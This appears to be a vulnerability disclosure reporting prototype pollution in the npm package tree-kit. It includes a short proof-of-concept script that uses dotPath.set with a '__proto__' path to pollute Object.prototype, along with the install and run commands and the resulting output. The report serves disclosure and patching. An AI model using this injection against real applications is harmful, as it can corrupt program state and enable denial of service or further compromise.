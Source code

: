 # Description

`tree-kit` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { dotPath } = require('tree-kit')

console.log("Before: ", {}.polluted)
dotPath.set({}, '__proto__.polluted', true)
console.log("After: ", {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i tree-kit # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
